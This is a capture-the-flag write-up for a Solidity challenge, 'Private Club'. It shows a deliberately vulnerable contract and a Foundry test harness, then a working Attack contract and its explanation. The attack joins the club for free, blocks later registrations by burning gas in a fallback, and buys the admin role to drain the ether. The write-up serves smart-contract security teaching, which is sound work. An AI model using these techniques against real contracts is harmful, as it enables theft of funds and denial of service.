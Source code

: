 # Private Club

## Challlenge

We are provided with the contract for a private club, which kind of looks like a ponzi scheme.... :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts/contracts/access/Ownable.sol";
import "openzeppelin-contracts/contracts/security/ReentrancyGuard.sol";

contract PrivateClub is ReentrancyGuard, Ownable {
    uint private registerEndDate;
    event setRegEndDate(uint registerEndDate);
    event memberWithdrawevent(address member, address to, uint amount);
    address[] public members_;
    mapping(address => bool) public members;

    receive() external payable {}

    uint public membersCount;

    function setRegisterEndDate(uint _newRegisterEndDate) external onlyOwner {
        registerEndDate = _newRegisterEndDate;
        emit setRegEndDate(registerEndDate);
    }

    function becomeMember(
        address[] calldata _members
    ) external payable nonReentrant {
        require(block.timestamp < registerEndDate, "registration closed");
        require(_members.length == membersCount, "wrong members length");
        require(msg.value == membersCount * 1 ether, "need more ethers");
        for (uint i = 0; i < _members.length; i++) {
            _members[i].call{value: 1 ether}("");
        }
        membersCount += 1;
        members[msg.sender] = true;
        members_.push(msg.sender);
    }

    modifier onlyMember() {
        bool member;
        for (uint i = 0; i < membersCount; i++) {
            if (members_[i] == msg.sender) {
                member = true;
            }
        }

        require(member == true, "you are not a member");
        _;
    }

    function adminWithdraw(address to, uint amount) external onlyOwner {
        payable(to).call{value: amount}("");
    }

    function addMemberByAdmin(address newMember) external onlyOwner {
        membersCount += 1;
        members[newMember] = true;
        members_.push(newMember);
    }

    function buyAdminRole(address newAdmin) external payable onlyMember {
        require(msg.value == 10 ether, "need 10 ethers");
        _transferOwnership(newAdmin);
    }
}
```

We have multiple goals in this challenge.

1. Become a member of a private club.
2. Block future registrations.
3. Withdraw all Ether from the privateClub contract.

To check if we fulfill these we are provided with a POC foundry script:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../lib/forge-std/src/Test.sol";
import "../src/PrivateClub.sol";
import "../src/Attack.sol";

contract Hack is Test {
    PrivateClub club;

    address clubAdmin = makeAddr("clubAdmin");
    address adminFriend = makeAddr("adminFriend");
    address user2 = makeAddr("user2");
    address user3 = makeAddr("user3");
    address user4 = makeAddr("user4");
    address hacker = makeAddr("hacker");
    uint blockGasLimit = 120000;

    function setUp() public {
        vm.deal(clubAdmin, 100 ether);
        vm.deal(hacker, 10 ether);
        vm.deal(user2, 10 ether);
        vm.deal(user3, 10 ether);
        vm.deal(user4, 10 ether);
        vm.startPrank(clubAdmin);
        club = new PrivateClub();
        club.setRegisterEndDate(block.timestamp + 5 days);
        club.addMemberByAdmin(adminFriend);
        address(club).call{value: 100 ether}("");
        vm.stopPrank();
        vm.startPrank(user2);
        address[] memory mForUser2 = new address[](1);
        mForUser2[0] = adminFriend;
        club.becomeMember{value: 1 ether}(mForUser2);
        vm.stopPrank();
        vm.startPrank(user3);
        address[] memory mForUser3 = new address[](2);
        mForUser3[0] = adminFriend;
        mForUser3[1] = user2;
        club.becomeMember{value: 2 ether}(mForUser3);
        vm.stopPrank();
    }

    function test_attack() public {
        vm.startPrank(hacker);
        // task1: become member of the club and
        // block future registrations (reason: out of gas - block gas limit)
        // solution:

        
        vm.stopPrank();
        // check - hacker is member
        assertTrue(club.members(hacker));

        // check - user4 can not become member - blockGasLimit
        vm.startPrank(user4);
        address[] memory mForUser4 = new address[](club.membersCount());
        for (uint i = 0; i < club.membersCount(); i++) {
            mForUser4[i] = club.members_(i);
        }
        uint etherAmount = mForUser4.length * 1 ether;
        uint gasleftbeforeTxStart = gasleft();
        club.becomeMember{value: etherAmount}(mForUser4);
        uint gasleftAfterTxStart = gasleft();

        assertGt(gasleftbeforeTxStart - gasleftAfterTxStart, blockGasLimit);
        vm.stopPrank();

        vm.startPrank(hacker);
        // task2: buy admin role and withdraw all ether from the club
        // solution:
                
        // check - hacker is owner of club
        assertEq(club.owner(), hacker);
        assertGt(hacker.balance, 110000000000000000000 - 1);
    }
}
```
## Solution

### 1. Become a member for free
THe vulnerability that we can exploit here is that we can pass the array of _members to the becomeMember() function (seems a bit like solana usage to me), and just fill it up with our own address. The contract then returns all the money we sent to us in 1 ether parts and adds us to the members\_ list in the end.

### 2. Blocking registration
To block the registration of other people we can abuse the call to all of the members in the members_ list when someone else tries to register, which is the case when the user4 tries to register. In the fallback functions of our attack contract we can just do stuff until we run out of gas.

### 3. Withdrawing everything
To withdraw everything we have to become the admin/owner. This could be easy as we are dealt 10eth at the beginning and that's exactly how much it costs. Unfortunately we already burn some gas during the first few calls. So the way we can circumvent this is by adding multiple instances of our attack contract to the members list and transferring all our money into it, as this way when user4 registers he will send almost all the money that he needs to pay for the registration to our attack contract, which will push us above 10eth. Then we can just buy the admin role and withdraw everything.

### The attack contract

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./PrivateClub.sol";

contract Attack
{
    PrivateClub target;
    uint256 counter;
    bool first_phase_done;
    address owner;

    constructor(address payable _target)
    {
        target = PrivateClub(_target);
        counter = 0;
        owner = msg.sender;
        first_phase_done = false;
    }

    function attack(uint256 turn) payable public
    {
        address[] memory address_array = new address[](turn);
        for (uint i = 0; i < turn; i++)
        {
            address_array[i] = address(this);
        }
        target.becomeMember{value:turn * 1e18}(address_array);
    }

    function attack2() payable public
    {
        target.buyAdminRole{value: 10 ether}(owner);
    }

    function finishFirstPhase() public
    {
        first_phase_done = true;
    }

    fallback() external payable
    {
        if (first_phase_done)
        {
            uint256 gas = gasleft();
            while (gas - 150000 > gasleft())
            {
                counter++;
            }
        }
    }
}
```